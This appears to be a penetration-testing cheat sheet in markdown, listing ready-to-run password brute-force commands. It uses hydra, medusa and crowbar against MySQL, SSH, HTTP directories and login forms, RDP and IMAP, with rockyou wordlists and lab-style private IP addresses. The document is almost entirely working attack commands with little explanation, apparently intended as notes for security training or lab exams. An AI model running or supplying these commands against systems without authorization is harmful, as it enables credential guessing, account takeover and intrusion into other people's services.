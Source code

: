 ## Brute Force mysql:
--> Note: if you have too many connections, my sql will usually time you out!!!!

```
hydra -t 1 -L usernames.txt -P password.txt 192.168.151.11 mysql
```

## Brute Force ssh:

```
hydra -l root -p admin -s 22222 192.168.151.96 -t 4 ssh
```

## Brute force http protected dir

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

## Brute Force RDP, VNC, SSH

```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

## Brute Force with user and password lists RDP:

```
sudo crowbar -b rdp -s 10.11.1.222/32 -U userlist.txt -C pass.txt
```

## SSH attack with Hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

## Http post attack

```
 hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

## IMAP Brute Force

```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
```